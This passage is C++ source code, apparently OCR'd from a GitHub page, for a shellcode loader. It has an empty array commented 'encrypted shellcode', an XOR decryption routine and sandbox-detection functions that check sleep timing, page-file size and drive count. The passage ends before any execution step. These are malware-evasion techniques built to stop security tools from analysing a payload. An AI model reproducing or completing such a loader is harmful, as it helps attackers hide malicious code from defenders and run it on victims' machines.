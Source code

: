     //加密后的shellcode  
    unsigned char lpAddress[] = "";  
    unsigned char* decrypt(unsigned char* input, int len, unsigned int key) {  
        unsigned char* output = new unsigned char[len];  
        srand(key);  
        for (int i = 0; i < len; i++) {  
            output[i] = input[i] ^ (rand() % len + 1);  
            output[i] = output[i] ^ key;  
        }  
        return output;  
    }  
      
    bool detect_sandbox() {  
        bool is_sandbox = false;  
        auto start_time = chrono::high_resolution_clock::now();  
      
        this_thread::sleep_for(chrono::milliseconds(100));  
      
        auto end_time = chrono::high_resolution_clock::now();  
        auto elapsed_time = chrono::duration_cast<chrono::milliseconds>(end_time - start_time);  
      
        cout << elapsed_time.count() << endl;  
        if (elapsed_time.count() < 100) {  
            is_sandbox = true;  
        }  
      
        return is_sandbox;  
    }  
      
    int GetNumPages() {  
        // 获取系统页面文件大小信息  
        MEMORYSTATUSEX statex;  
        statex.dwLength = sizeof(statex);  
        if (!GlobalMemoryStatusEx(&statex)) {  
            cerr << "Failed to get system memory status." << endl;  
            return 1;  
        }  
      
        SYSTEM_INFO systemInfo;  
        GetSystemInfo(&systemInfo);  
        return statex.ullTotalPageFile / systemInfo.dwPageSize;  
    }  
      
    int GetNumDrives() {  
        DWORD drives = GetLogicalDrives();  
        int numDrives = 0;  
        for (char i = 0; i < 26; i++) {  
            if (drives & (1 << i)) {  
                char path[4];  
                sprintf_s(path, "%c:\\", 'A' + i);  
                UINT type = GetDriveTypeA(path);  
                if (type == DRIVE_FIXED || type == DRIVE_REMOVABLE) {  
                    numDrives++;  
                }  
            }  
        }  
        return numDrives;  
    }  
      